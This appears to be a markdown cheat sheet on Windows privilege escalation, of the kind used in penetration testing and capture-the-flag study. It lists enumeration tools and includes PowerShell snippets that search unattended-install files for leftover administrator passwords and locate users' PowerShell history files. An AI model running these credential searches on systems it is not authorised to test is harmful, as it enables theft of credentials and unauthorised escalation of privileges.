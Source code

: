 # Privilege Escalation
## Tools

Windows Privilege Escalation Awesome Scripts - [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
Privilege Escalation Enumeration Script for Windows - [PrivescCheck](https://github.com/itm4n/PrivescCheck)
Windows Exploit Suggester - Next Generation - [WES-NG](https://github.com/bitsadmin/wesng)
Metasploit - `multi/recon/local_exploit_suggester`

## Quick Wins
### Unattended Windows Installations
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services. Such installations require the use of an administrator account to perform the initial setup, whose credentials may be left on the host.

```powershell
# Define file paths to check
$files = @(
    "C:\Unattend.xml",
    "C:\Windows\Panther\Unattend.xml",
    "C:\Windows\Panther\Unattend\Unattend.xml",
    "C:\Windows\system32\sysprep.inf",
    "C:\Windows\system32\sysprep\sysprep.xml"
)

foreach ($file in $files) {
    if (Test-Path $file) {
        Write-Host "Checking $file..." -ForegroundColor Cyan
        # Search for the word 'password' in any form
        Select-String -Path $file -Pattern "password" -SimpleMatch -CaseSensitive:$false |
            ForEach-Object {
                Write-Host ("`t" + $_.Line) -ForegroundColor Yellow
            }
    } else {
        Write-Host "File not found: $file" -ForegroundColor DarkGray
    }
}
```

### Powershell History
```powershell
Get-ChildItem C:\Users -Directory |
    ForEach-Object {
        Get-ChildItem "C:\Users\$_\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
    } |
    Select-Object -ExpandProperty FullName
```
